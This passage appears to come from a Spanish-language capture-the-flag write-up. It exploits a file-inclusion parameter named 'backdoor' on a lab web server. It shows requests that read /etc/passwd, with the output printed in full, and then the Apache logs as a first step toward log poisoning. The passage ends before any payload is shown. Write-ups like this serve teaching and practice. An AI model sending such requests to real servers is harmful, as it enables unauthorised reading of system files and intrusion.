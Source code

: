 Vemos que hay uno llamado `backdoor` por lo que haremos lo siguiente:

## Escalate user www-data

```
URL = http://<IP>/problems.php?backdoor=/etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
carlos:x:1001:1001:,,,:/home/carlos:/bin/bash
```

Vemos que hay un usuario llamado `carlos`, pero si probamos a tirar fuerza bruta no sacaremos nada, por lo que vamos a ver si es vulnerable a un `LOG POISONING`.

```
URL = http://<IP>/problems.php?backdoor=/var/log/apache2/error.log
```

Vemos que las ultimas entradas son algo asi:

```
172.17.0.1 - - [16/Jan/2025:07:01:37 +1000] "GET /problems.php?backdoor=../../../var/www/apache2/error.log HTTP/1.1" 200 203 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
172.17.0.1 - - [16/Jan/2025:07:02:16 +1000] "GET /problems.php?backdoor=/var/log/apache2/error.log HTTP/1.1" 200 485069 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
172.17.0.1 - - [16/Jan/2025:07:02:33 +1000] "GET /problems.php?backdoor=/var/log/apache2/access.log HTTP/1.1" 200 487286 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
```
